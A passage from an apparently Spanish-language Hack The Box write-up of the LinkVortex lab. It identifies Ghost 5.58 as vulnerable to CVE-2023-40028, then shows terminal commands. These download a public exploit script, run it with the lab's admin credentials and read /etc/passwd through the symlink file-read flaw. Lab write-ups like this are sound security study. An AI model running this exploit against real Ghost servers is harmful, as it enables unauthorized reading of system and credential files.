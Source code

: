 ## Vulnerability Exploitation

![](assets/img/htb-writeup-linkvortex/linkvortex3_1.png)

Una vez autenticado como usuario válido, y recordando que whatweb detectó la versión `[Ghost 5.58]`, identifico la vulnerabilidad [CVE-2023-40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028), la cual puede ser explotada en este entorno. Las versiones anteriores a la `5.59.1` son vulnerables a una condición que permite a usuarios autenticados subir archivos simbólicos, lo que puede ser aprovechado para realizar lecturas arbitrarias de archivos en el sistema operativo.

Utilizo el exploit [0xyassine-CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028/), el cual permite la lectura de archivos arbitrarios desde el sistema.

```terminal
/home/kali/Documents/htb/machines/linkvortex:-$ wget https://raw.githubusercontent.com/0xyassine/CVE-2023-40028/refs/heads/master/CVE-2023-40028.sh

/home/kali/Documents/htb/machines/linkvortex:-$ ./exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
file> /etc/passwd
```

![](assets/img/htb-writeup-linkvortex/linkvortex3_2.png)
